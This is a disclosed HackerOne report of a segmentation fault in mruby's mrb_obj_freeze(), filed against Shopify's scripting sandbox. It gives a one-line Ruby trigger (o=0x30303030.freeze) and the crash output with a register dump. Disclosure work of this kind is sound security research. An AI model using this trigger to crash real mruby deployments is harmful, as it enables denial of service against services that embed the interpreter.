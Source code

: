 # SIGSEGV mrb_obj_freeze() Manipulating Register RAX and RSI

## Report Details
- **Report ID**: 191994
- **URL**: https://hackerone.com/reports/191994
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-17T17:45:22.008Z
- **Disclosed**: 2017-02-10T21:55:40.341Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
There is an invalid memory read on mruby when calling to mrb_obj_freeze() with a invalid "Struct RBasic*" which causes a SIGSEGV and leads to denial of service or remote.

The following code triggers the bug (attached as mrb_obj_freeze.rb):

	o=0x30303030.freeze

Crash
---------------------

Here we can see the crash (full crash output attached)

	root@x:/home/x/Desktop/shopify/research/mruby-engine/bin# ./sandbox mrb_obj_freeze.rb 
	./sandbox:20: [BUG] Segmentation fault at 0x00000060606061
	ruby 2.2.5p319 (2016-04-26 revision 54774) [x86_64-linux-gnu]

	-- Control frame information -----------------------------------------------
	c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
	c:0002 p:0186 s:0005 E:0007d8 EVAL   ./sandbox:20 [FINISH]
	c:0001 p:0000 s:0002 E:0023f0 TOP    [FINISH]

	-- Ruby level backtrace information ----------------------------------------
	./sandbox:20:in `<main>'
	./sandbox:20:in `sandbox_eval'

	-- Machine register context ------------------------------------------------
	 RIP: 0x00007f96c6cac713 RBP: 0x0000000000000000 RSP: 0x00007f96c57e79d8
	 RAX: 0x0000000060606061 RBX: 0x0000000000000000 RCX: 0x00007f96c57f5a00
	 RDX: 0x0000000000000002 RDI: 0x00007f96c57e94e0 RSI: 0x0000000060606061
	  R8: 0x0000000000000000  R9: 0x0000000000000000 R10: 0x000000000000004c
	 R11: 0x0000000000000000 R12: 0x00007f96c57f4700 R13: 0x00007f96c57f5a00
	 R14: 0x0000000000000002 R15: 0x00007f96c57e94e0 EFL: 0x0000000000010297
